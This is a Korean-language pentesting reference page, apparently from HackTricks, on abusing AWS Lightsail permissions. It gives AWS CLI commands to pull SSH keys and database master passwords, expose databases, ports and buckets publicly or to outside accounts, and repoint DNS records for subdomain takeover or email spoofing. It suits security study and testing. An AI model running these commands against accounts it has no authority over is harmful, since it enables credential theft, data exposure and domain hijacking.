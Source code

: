 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Lightsail에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Lightsail은 **사용자에게 속한 IAM 역할을 사용하지 않고** AWS 관리 계정에 속한 역할을 사용한다는 점을 유의해야 합니다. 따라서 이 서비스를 악용해 privesc를 수행할 수는 없습니다. 그러나 **민감한 데이터**(예: code, API keys 및 database info)는 이 서비스에서 발견될 수 있습니다.

### `lightsail:DownloadDefaultKeyPair`

이 권한은 인스턴스에 접근하기 위한 SSH keys를 얻을 수 있게 해줍니다:
```
aws lightsail download-default-key-pair
```
**Potential Impact:** 인스턴스 내부에서 민감한 정보를 찾을 수 있음.

### `lightsail:GetInstanceAccessDetails`

이 권한은 인스턴스에 액세스하기 위해 SSH 키를 생성할 수 있게 해줍니다:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** instances 내부에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:CreateBucketAccessKey`

이 권한을 사용하면 bucket에 접근하기 위한 키를 얻을 수 있습니다:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potential Impact:** 버킷 내부에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한을 통해 데이터베이스에 접근하기 위한 자격 증명을 얻을 수 있습니다:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potential Impact:** 데이터베이스 내에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:UpdateRelationalDatabase`

이 권한은 데이터베이스에 접근하기 위한 비밀번호를 변경할 수 있게 해줍니다:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
데이터베이스가 공개되어 있지 않다면, 다음 권한으로 공개할 수도 있습니다.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**잠재적 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있음.

### `lightsail:OpenInstancePublicPorts`

이 권한은 포트를 인터넷에 공개할 수 있도록 허용합니다.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근할 수 있음.

### `lightsail:PutInstancePublicPorts`

이 권한은 포트를 인터넷에 개방할 수 있게 합니다. 이 호출은 요청에 명시되지 않은 모든 열린 포트를 닫습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근할 수 있습니다.

### `lightsail:SetResourceAccessForBucket`

이 권한은 추가적인 credentials 없이 instances가 bucket에 접근할 수 있도록 허용합니다.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potential Impact:** 민감한 정보를 포함한 buckets에 대한 잠재적 신규 접근.

### `lightsail:UpdateBucket`

이 권한을 통해 공격자는 자신의 AWS 계정에 buckets에 대한 읽기 액세스를 부여하거나 심지어 buckets를 모두에게 공개할 수 있습니다:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 담긴 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateContainerService`

이 권한을 통해 공격자는 containers service에서 private ECRs에 대한 접근 권한을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** private ECR에서 민감한 정보를 얻을 수 있음

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하여 자신의 IP 주소로 포인팅(subdomain takeover)하거나, 도메인에서 이메일을 spoof할 수 있도록 하는 SPF 레코드를 조작하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수도 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** Takeover a domain

### `lightsail:UpdateDomainEntry`

이 권한을 가진 attacker는 subdomain을 생성해 이를 자신의 IP address로 지정하여 (subdomain takeover) 소유권을 빼앗거나, SPF 레코드를 조작해 domain에서 spoof emails를 보낼 수 있게 하거나, 심지어 메인 domain을 자신의 IP address로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

{{#include ../../../../banners/hacktricks-training.md}}
